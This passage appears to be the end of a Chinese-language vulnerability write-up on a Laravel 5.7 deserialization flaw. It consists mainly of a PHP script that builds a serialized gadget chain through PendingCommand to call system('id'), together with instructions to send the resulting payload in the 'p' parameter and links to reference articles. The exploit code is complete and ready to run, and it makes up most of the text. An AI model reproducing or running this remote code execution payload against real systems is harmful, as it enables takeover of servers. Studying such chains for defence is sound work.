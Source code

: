 ```
<?php
//chain.php
include("gadgets.php");

echo urlencode(serialize(new Illuminate\Foundation\Testing\PendingCommand("system",array('id'),new Illuminate\Auth\GenericUser(array("expectedOutput"=>array("0"=>"1"),"expectedQuestions"=>array("0"=>"1"))),new Illuminate\Foundation\Application(array("Illuminate\Contracts\Console\Kernel"=>array("concrete"=>"Illuminate\Foundation\Application"))))));
?> 
```

运行chain.php文件即可得到payload，将payload传入p参数即可。

## 参考链接

> https://laworigin.github.io/2019/02/21/laravelv5-7%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96rce/

> https://xz.aliyun.com/t/5510#toc-1